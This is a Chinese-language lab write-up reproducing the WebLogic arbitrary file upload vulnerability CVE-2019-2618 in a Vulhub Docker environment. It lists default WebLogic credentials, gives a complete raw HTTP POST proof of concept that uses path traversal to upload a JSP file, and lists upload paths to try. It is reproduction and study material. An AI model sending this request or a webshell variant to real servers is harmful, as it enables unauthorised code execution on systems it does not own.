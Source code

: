 # WebLogic任意文件上传漏洞(CVE-2019-2618)

## 0x01 漏洞描述

*漏洞介绍*

CVE-2019-2618漏洞主要是利用了WebLogic组件中的DeploymentService接口，该接口支持向服务器上传任意文件。攻击者突破了OAM（Oracle Access Management）认证，设置wl_request_type参数为app_upload，构造文件上传格式的POST请求包，上传jsp木马文件，进而可以获得整个服务器的权限。

*影响版本*

WebLogic 10.3.6.0、12.1.3.0、12.2.1.3

## 0x01 搭建漏洞环境


利用[Vulhub](https://github.com/vulhub/vulhub)里的`weblogic/CVE-2017-10271`的weblogic版本作为漏洞环境，启动命令为：
```
docker-compose up -d
```
等待一段时间，访问`http://your-ip:7001/`即可看到一个404页面，说明weblogic已成功启动。

我们可以先进入容器内部
```
[root@localhost CVE-2017-10271]# docker ps
CONTAINER ID        IMAGE               COMMAND              CREATED             STATUS              PORTS                              NAMES
dc73ec08c629        vulhub/weblogic     "startWebLogic.sh"   13 minutes ago      Up 13 minutes       5556/tcp, 0.0.0.0:7001->7001/tcp   cve-2017-10271_weblogic_1_e0c10faa85da
[root@localhost CVE-2017-10271]# docker exec -it dc73ec08c629 /bin/bash
root@dc73ec08c629:~/Oracle/Middleware# 
```

## 0x02 漏洞复现

漏洞前提是需要先获取`weblogic`的账号密码。可以爆破密码或者尝试默认账号密码(比较鸡肋)
`weblogic/weblogic`
`weblogic/Oracle@123`

POC为：
```
POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
Host: 172.16.200.221:7001
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
username: weblogic
wl_request_type: app_upload
cache-control: no-cache
wl_upload_application_name: ../tmp/_WL_internal/bea_wls_deployment_internal/gyuitk/war
serverName: zhengjim
password: Oracle@123
content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
archive: true
server_version: 10.3.6.0
wl_upload_delta: true
Content-Length: 238

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="shell.jsp"; filename="shell.jsp"
Content-Type: false

<%
        out.print("123456"); 
%>

------WebKitFormBoundary7MA4YWxkTrZu0gW--
```


发送数据包 ，返回了上传文件的地址 

![](./img/1.png)

去访问发现执行成功

![](./img/2.png)


复现成功

上传目录可以多尝试几个
```
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_deployment_internal.war
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_internal.war 这是上传的路径
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_internal
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_deployment_internal
bea_wls_internal 
bea_wls_deployment_internal 在同目录
这是漏洞war位置
```



## 漏洞修复

Oracle官方已经在关键补丁更新（CPU）中修复了该漏洞

## 参考文献

1. https://github.com/jas502n/cve-2019-2618
2. http://sec.sangfor.com.cn/events/229.html
3. https://www.oracle.com/technetwork/security-advisory/cpuapr2019-5072813.html
